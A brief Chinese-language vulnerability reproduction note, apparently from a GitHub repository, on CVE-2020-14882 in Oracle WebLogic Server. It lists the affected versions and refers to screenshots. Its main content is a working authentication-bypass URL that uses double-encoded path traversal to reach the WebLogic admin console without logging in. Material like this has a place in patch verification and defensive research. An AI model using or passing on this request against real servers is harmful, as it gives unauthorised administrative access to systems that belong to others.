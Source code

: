 ### CVE-2020-14882

影响版本：

Oracle WebLogic Server 10.3.6.0
Oracle WebLogic Server 12.1.3.0
Oracle WebLogic Server 12.2.1.3
Oracle WebLogic Server 12.2.1.4
Oracle WebLogic Server 14.1.1.0

漏洞复现：

![image-20220331093018986](.\image\image-20220331093018986.png)

使用如下URL绕过控制台组件身份认证，未授权访问后台管理页面。

http://目标主机域名或IP:端口/console/css/%252e%252e%252fconsole.portal

![Dingtalk_20220331093252](.\image\Dingtalk_20220331093252.jpg)
